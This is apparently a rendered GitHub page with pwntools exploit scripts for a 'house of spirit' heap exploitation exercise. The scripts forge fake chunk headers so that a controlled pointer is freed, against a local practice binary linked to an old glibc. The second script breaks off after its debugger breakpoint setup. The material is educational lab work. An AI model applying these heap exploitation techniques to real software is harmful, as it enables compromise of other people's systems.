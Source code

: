 ```python
info_user(age, username)

name = b'a'*8 + p64(elf.sym['user'] + 0x10)
chunk_A = malloc(0x18, b'X'*0x18, name)

free(chunk_A)
malloc(0x78, b'Y'*64 + b'Much Win\x00', 'Winner')
target()
'''
#=====================================================================================
#largee chunk
age = 0x91

#only trigger bit prev_inused for third chunk
username = p64(0)*5 + p64(0x11) + p64(0) +p64(0x01)

info_user(age, username)

name = b'a'*8 + p64(elf.sym['user'] + 0x10)
chunk_A = malloc(0x18, b'X'*0x18, name)

free(chunk_A)
malloc(0x88, b'Y'*64 + b'Much Win\x00', 'Winner')
target()
quit()
io.interactive()
```


shell_with_heap_leak.py


```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'debug'
context.binary = elf = ELF('./house_of_spirit', checksec=False)

libc = ELF('../.glibc/glibc_2.30_no-tcache/libc.so.6', checksec=False)

gs = """
b *main


b *main+270
b *main+327

b *main+415

b *main+541
b *main+652
b *main+707

b *main+792
b *main+873



"""

index = 0

def info(mes):
    return log.info(mes)
```